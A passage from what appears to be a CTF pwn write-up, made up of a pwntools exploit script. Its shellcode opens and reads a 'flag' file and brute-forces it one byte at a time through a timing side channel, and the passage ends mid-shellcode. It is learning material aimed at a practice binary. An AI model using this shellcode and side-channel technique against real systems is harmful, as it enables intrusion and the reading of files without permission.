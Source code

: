 [![](assets/1703640353-37b8aa7a88203faac3c00a1e87f26a29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225192021-9729a418-a317-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *


#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

#context.log_level='debug'
context(os='linux', arch='amd64')

elf = ELF('./pwn')
syscall2=0x40118A
syscall=0x401060
rax_15 = 0x401193
main = 0x401421

def exp(dis,char):
    shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x404500
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
```